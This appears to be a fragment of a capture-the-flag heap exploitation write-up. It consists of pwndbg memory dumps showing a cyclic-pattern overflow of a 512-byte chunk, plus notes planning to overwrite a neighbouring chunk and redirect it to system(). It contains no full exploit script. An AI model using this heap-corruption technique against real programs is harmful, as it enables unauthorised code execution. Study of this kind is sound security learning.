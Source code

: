 

```
pwndbg> x/72gx 0x56357751f210
0x56357751f210:	0x6161616261616161	0x6161616461616163
0x56357751f220:	0x6161616661616165	0x6161616861616167
0x56357751f230:	0x6161616a61616169	0x6161616c6161616b
0x56357751f240:	0x6161616e6161616d	0x616161706161616f
0x56357751f250:	0x6161617261616171	0x6161617461616173
0x56357751f260:	0x6161617661616175	0x6161617861616177
0x56357751f270:	0x6261617a61616179	0x6261616362616162
0x56357751f280:	0x6261616562616164	0x6261616762616166
0x56357751f290:	0x6261616962616168	0x6261616b6261616a
0x56357751f2a0:	0x6261616d6261616c	0x6261616f6261616e
0x56357751f2b0:	0x6261617162616170	0x6261617362616172
0x56357751f2c0:	0x6261617562616174	0x6261617762616176
0x56357751f2d0:	0x6261617962616178	0x636161626361617a
0x56357751f2e0:	0x6361616463616163	0x6361616663616165
0x56357751f2f0:	0x6361616863616167	0x6361616a63616169
0x56357751f300:	0x6361616c6361616b	0x6361616e6361616d
0x56357751f310:	0x636161706361616f	0x6361617263616171
0x56357751f320:	0x6361617463616173	0x6361617663616175
0x56357751f330:	0x6361617863616177	0x6461617a63616179
0x56357751f340:	0x6461616364616162	0x6461616564616164
0x56357751f350:	0x6461616764616166	0x6461616964616168
0x56357751f360:	0x6461616b6461616a	0x6461616d6461616c
0x56357751f370:	0x6461616f6461616e	0x6461617164616170
0x56357751f380:	0x6461617364616172	0x6461617564616174
0x56357751f390:	0x6461617764616176	0x6461617964616178
0x56357751f3a0:	0x656161626561617a	0x6561616465616163
0x56357751f3b0:	0x6561616665616165	0x6561616865616167
0x56357751f3c0:	0x6561616a65616169	0x6561616c6561616b
0x56357751f3d0:	0x6561616e6561616d	0x656161706561616f
0x56357751f3e0:	0x6561617265616171	0x6561617465616173
0x56357751f3f0:	0x6561617665616175	0x6561617865616177
0x56357751f400:	0x6661617a65616179	0x6661616366616162
0x56357751f410:	0x0000000000000000	0x000000000001fbf1
0x56357751f420:	0x0000000000000000	0x0000000000000000

```

the 512 bytes brutally overwrites everything below it!

Now that if we switch to chunk 3-5, we should be able to overwrite the neighbour chunk I guess

then edit again to change it to system?
yes, i think so!

```
pwndbg> x/72gx 0x5570ad9e44e0
0x5570ad9e44e0:	0x00005570ad9e44f0	0x0000000000000211
0x5570ad9e44f0:	0x4141414141414141	0x0000000000000000
0x5570ad9e4500:	0x0000000000000000	0x0000000000000000
0x5570ad9e4510:	0x0000000000000000	0x0000000000000000
0x5570ad9e4520:	0x0000000000000000	0x0000000000000000
0x5570ad9e4530:	0x0000000000000000	0x0000000000000000
0x5570ad9e4540:	0x0000000000000000	0x0000000000000000
0x5570ad9e4550:	0x0000000000000000	0x0000000000000000
0x5570ad9e4560:	0x0000000000000000	0x0000000000000000
0x5570ad9e4570:	0x0000000000000000	0x0000000000000000
0x5570ad9e4580:	0x0000000000000000	0x0000000000000000
0x5570ad9e4590:	0x0000000000000000	0x0000000000000000
0x5570ad9e45a0:	0x0000000000000000	0x0000000000000000
0x5570ad9e45b0:	0x0000000000000000	0x0000000000000000
0x5570ad9e45c0:	0x0000000000000000	0x0000000000000000
0x5570ad9e45d0:	0x0000000000000000	0x0000000000000000
0x5570ad9e45e0:	0x0000000000000000	0x0000000000000000
```